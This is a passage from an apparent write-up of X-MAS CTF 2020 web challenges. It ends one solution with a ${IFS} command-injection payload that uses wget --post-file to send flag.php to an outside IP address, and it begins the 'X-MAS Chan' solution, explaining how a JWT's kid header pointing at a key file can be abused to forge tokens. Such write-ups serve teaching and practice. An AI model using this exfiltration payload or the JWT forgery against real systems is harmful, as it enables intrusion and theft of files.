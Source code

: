 `Payload : ${IFS}-${IFS}--post-file${IFS}flag.php${IFS}141.164.55.161`

So, I passed the payload above as the flag value.
![](https://github.com/wjddnjs33/image2/blob/main/스크린샷%202020-12-18%20오전%207.00.30.png?raw=true)
When I checked the server log, I could see the flag.php file came.

`FLAG : X-MAS{s0_fL4g_M4ny_IFS_bb69cd55f5f6}`

---
### (Web) X-MAS Chan
<strong>Challenge Author :</strong> yakuhito, Milkdrop<br>
<strong>Category :</strong> WEB<br>
<strong>Points :</strong> 470<br>
<strong>Solves :</strong> 26<br>
<strong>TL;DR</strong> : JWT Modified<br>


![](https://github.com/wjddnjs33/image/blob/main/스크린샷%202020-12-18%20오전%206.25.32.png?raw=true)
This time, we will solve the problem called `X-MAS Chan` among web problems from X-MAS CTF 2020.
![](https://github.com/wjddnjs33/image2/blob/main/스크린샷%202020-12-18%20오후%209.41.21.png?raw=true)
If you come into trouble, you can see there are links and rules that can get you into the board.
![](https://github.com/wjddnjs33/image2/blob/main/스크린샷%202020-12-18%20오후%209.43.59.png?raw=true)
When I came to the board, I can see that the file upload function exists as above.<br><br>

And as a result of checking, it was found that only photos such as jpg, png, and gif can be uploaded.
![](https://github.com/wjddnjs33/image2/blob/main/스크린샷%202020-12-18%20오후%209.51.25.png?raw=true)
Also, if you check the source code, you can see that there is getbanner.php, and the logic is logic to get a picture using jwt. `You can see that jwt is set as a value in a cookie called banner.`
![](https://github.com/wjddnjs33/image2/blob/main/스크린샷%202020-12-18%20오후%209.55.11.png?raw=true)
```
{
  "typ": "JWT",
  "alg": "HS256",
  "kid": "/tmp/jwt.key"
}
```
When the jwt is decoded, you can see that the header part uses the `HS256` algorithm as above and the kid value is using `/tmp/jwt.key`.
```
{
  "banner": "banner/11.gif"
}
```
As the data above, you can see that you are receiving a 11.gif photo as the value of the banner. So, if you give `flag.php` as the `value of banner`, it will read and return `flag.php`, not the picture.<br><br>

So how do I `sign` JWT when I don't know the `secret key`?<br><br>

You can think of the kid value in the header as a pointer to the secret key. In the above jwt, since kid points to `/tmp/jwt.key`, the value contained in jwt.key can be used as the secret key.<br><br>
